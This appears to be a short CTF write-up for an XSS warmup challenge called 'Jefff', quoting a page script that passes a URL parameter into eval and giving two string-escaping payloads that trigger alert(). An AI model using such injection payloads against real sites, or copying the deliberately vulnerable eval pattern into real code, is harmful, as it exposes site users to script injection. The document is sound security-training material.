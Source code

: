 ```yaml
---
title: '[XSSG] Jefff' 
date: 2022-04-29 
categories: [Others, XSSgame]
tags: [easy, xss, warmups, challenge]
permalink: /:categories/:title
---
```


## Challenge

This is the script that violates the web

```html
<!-- Challenge -->
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma    }, 1000)
</script>
```

## Solution

For this challenge we see that the code has an eval, this is a function that what it does is evaluates JavaScript code represented as a string. So we have to escape that function somehow, I've escaped it using "-example-"

[Ma name JEFFF](https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=%3Cscript%3E%22-alert(%27win%27)-%22%3C/script%3E)

## Creator solution

The solution given by the creator of the game is as follows

`"-alert(1337)-"`
